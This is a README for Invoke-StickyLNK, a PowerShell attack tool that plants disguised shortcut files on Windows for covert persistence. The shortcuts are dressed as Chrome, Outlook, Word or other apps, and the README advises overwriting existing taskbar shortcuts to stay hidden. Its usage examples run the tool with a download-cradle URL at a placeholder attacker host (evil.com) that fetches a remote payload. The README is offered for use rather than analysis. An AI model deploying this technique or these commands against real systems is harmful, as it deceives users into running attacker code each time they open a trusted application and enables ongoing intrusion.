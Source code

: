 ```
  /$$$$$$   /$$     /$$           /$$                /$$       /$$   /$$ /$$   /$$          
 /$$__  $$ | $$    |__/          | $$                 $$      | $$$ | $$| $$  /$$/          
| $$  \__//$$$$$$   /$$  /$$$$$$$| $$   /$$ /$$   /$$ $$      | $$$$| $$| $$ /$$/  
|  $$$$$$|_  $$_/  | $$ /$$_____/| $$  /$$/| $$  | $$ $$      | $$ $$ $$| $$$$$/ 
 \____  $$ | $$    | $$| $$      | $$$$$$/ | $$  | $$ $$      | $$  $$$$| $$  $$ 
 /$$  \ $$ | $$ /$$| $$| $$      | $$_  $$ | $$  | $$ $$      | $$\  $$$| $$\  $$ 
|  $$$$$$/ |  $$$$/| $$|  $$$$$$$| $$ \  $$|  $$$$$$$ $$$$$$$$| $$ \  $$| $$ \  $$ 
 \______/   \___/  |__/ \_______/|__/  \__/ \____  $$________/|__/  \__/|__/  \__/
                                            /$$  | $$                                                
                                           |  $$$$$$/                                                
                                            \______/                                                 
```
# Invoke-StickyLNK

Author: Benjamin Spence (@bSpence7337)

# Description
Creates cradled .lnk files for user-driven persistence. Places the$ shortcuts in taskbar, startmenu, or startup locations. To maintain covertness do not place on desktop. For Taskbar, best to overwrite existing shortcuts.
# Usage
```
usage: Invoke-StickLNK.ps1 
	-URL (Your Powershell URL. http://8.8.8.8/a ) 
	-Appname options:winword.exe,outlook.exe,chrome.exe (Or specify your own executable and the executable must exist on the system)
	-Type options: Startup, StartMenu, Taskbar (Which known location to save the .LNK)
	-LNKNameInput (If using your own executable, specify the displayed .lnk filename, ex. "Adobe Reader.lnk)

```
Example 1 - Use the built in chrome.exe, outlook.exe, or winword.exe
```
PS > Import-Module Invoke-StickyLNK.ps1
PS > Invoke-StickyLNK -URL http://evil.com:80/URI -Appname chrome.exe -Type Taskbar 
```

Example 2 - When you specify your own executable, you must specify the named LNKNameInput (ex. "Excel 2013.lnk")
```
PS > Import-Module Invoke-StickyLNK.ps1
PS > Invoke-StickyLNK.ps1 -URL http://evil.com:80/URI -Appname excel.exe -Type StartMenu -LNKNameInput "Excel 2013.lnk"
```

# Blog Write-up
https://bspence7337.github.io/bSpenceSecurity/Sticky-LNKz/

# Credits
* @enigma0x3 - Initial LNK script for hosted payloads
* @bluscreenofjeff - Feedback, testing, validation, "Thought Leadership"
